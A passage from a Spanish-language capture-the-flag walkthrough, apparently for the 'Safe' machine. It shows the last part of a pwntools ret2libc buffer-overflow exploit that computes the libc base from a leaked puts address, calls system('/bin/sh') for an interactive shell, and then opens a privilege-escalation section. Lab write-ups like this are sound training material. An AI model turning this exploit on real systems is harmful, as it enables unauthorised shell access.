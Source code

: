 ```python
libc_address = leaked_puts - 0x68f90 # Calcularemos el dirección de libc restandole un offset a la dirección de puts, dicho offset lo podemos obtener buscando en google por: libc database search (Destacar que yo he tenido que copiarme la dirección del offset del writeup ya que buscando en las páginas que existen ahora sobre esto ninguna de ellas contiene los offset correctos)


log.info("Computed libc address: 0x%x" % libc_address) # Mostraremos por pantalla la dirección de libc tras el calculo realizado.

bin_sh_address = p64(libc_address + 0x161c19) # Obtendremos la dirección de /bin/sh tras sumarle un offset el cual podemos obtener buscando en google por: libc database search.


# Suponiendo que la protección PIE esta deshabilitada procederemos a enviar un nuevo payload pero en este caso  ejecutaremos la instrucción system("/bin/sh") ya que en rdi estamos cargando la dirección real de /bin/sh, es decir a partir de libc y posteriormente ejecutaremos la función system() la cual obtiene su argumento de rdi.
payload = junk + pop_rdi + bin_sh_address + system_plt 

p.sendline(payload) # Enviaremos el payload

p.interactive() # Finalmente gracias a pwntools intentaremos entrar en modo interactivo.
```

Tal y como observamos a continuación habremos ganado acceso a la máquina víctima gracias a la explotación del **Buffer OverFlow** **Leak de libc** por lo que comenzaremos con la **Escalada de privilegios**.

![](<../assets/images/posts/2025-04-03-safe/Pasted image 20250101215905.png>)

___
## Escalada de privilegios

Una vez realizado el **Tratamiento de la TTY** observamos que hemos conseguido explotar el **Buffer OverFlow** y hemos ganado acceso a la máquina víctima como el usuario **user**, tal y como podemos ver a continuación:

![](<../assets/images/posts/2025-04-03-safe/Pasted image 20241230164226.png>)
